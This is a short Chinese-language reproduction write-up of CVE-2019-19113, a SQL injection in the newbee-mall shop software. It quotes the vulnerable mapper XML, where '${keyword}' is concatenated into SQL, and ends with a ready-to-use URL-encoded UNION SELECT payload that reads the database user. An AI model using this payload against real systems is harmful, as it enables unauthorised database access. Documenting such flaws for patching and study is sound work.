 ```yaml
---
title: CVE-2019-19113）Newbee-mall新蜂商城sql注入
id: zhfly3037
---
```


# （CVE-2019-19113）新蜂商城sql注入

## 一、漏洞简介

newbee-mall 2019-10-23之前版本中的main/resources/mapper/NewBeeMallGoodsMapper.xml文件存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

Newbee-mall 2019-10-23之前版

## 三、复现过程

\src\main\resources\mapper\NewBeeMallGoodsMapper.xml

```
 <select id="findNewBeeMallGoodsListBySearch" parameterType="Map" resultMap="BaseResultMap">
        select
        <include refid="Base_Column_List"/>
        from tb_newbee_mall_goods_info
        <where>
            <if test="keyword!=null and keyword!=''">
                and (goods_name like CONCAT('%','${keyword}','%') or goods_intro like CONCAT('%','${keyword}','%'))
            </if>
            <if test="goodsCategoryId!=null and goodsCategoryId!=''">
                and goods_category_id = #{goodsCategoryId}
            </if>
        </where>
        <if test="orderBy!=null and orderBy!=''">
            <choose>
                <when test="orderBy == 'new'">

```
 order by goods_id desc
            &lt;/when&gt;
            &lt;when test="orderBy == 'price'"&gt;

                order by selling_price asc
            &lt;/when&gt;
            &lt;otherwise&gt;

                order by stock_num desc
            &lt;/otherwise&gt;
        &lt;/choose&gt;
    &lt;/if&gt;
    &lt;if test="start!=null and limit!=null"&gt;
        limit #{start},#{limit}
    &lt;/if&gt;
&lt;/select&gt; 
``` 
```

如果使用$ {keyword}拼接sql语句，则存在SQL注入的风险

poc：

```
http://0-sec.org:28089/search?goodsCategoryId=&keyword=%5C%25%27%29%29%20%55%4E%49%4F%4E%20%41%4C%4C%20%53%45%4C%45%43%54%20%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%43%4F%4E%43%41%54%28%30%78%37%31%37%36%36%32%37%38%37%31%2C%49%46%4E%55%4C%4C%28%43%41%53%54%28%43%55%52%52%45%4E%54%5F%55%53%45%52%28%29%20%41%53%20%43%48%41%52%29%2C%30%78%32%30%29%2C%30%78%37%31%36%32%37%38%36%62%37%31%29%2C%4E%55%4C%4C%2C%4E%55%4C%4C%23&orderBy=default 
```